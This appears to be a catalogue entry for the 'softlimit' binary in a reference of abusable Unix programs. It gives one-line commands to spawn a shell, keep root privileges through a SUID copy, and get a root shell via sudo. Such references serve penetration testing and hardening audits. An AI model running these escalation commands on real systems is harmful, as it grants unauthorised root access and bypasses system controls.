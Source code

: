 ```yaml
---
functions:
  shell:
    - code: softlimit /bin/sh
  suid:
    - code: ./softlimit /bin/sh -p
  sudo:
    - code: sudo softlimit /bin/sh
---
```

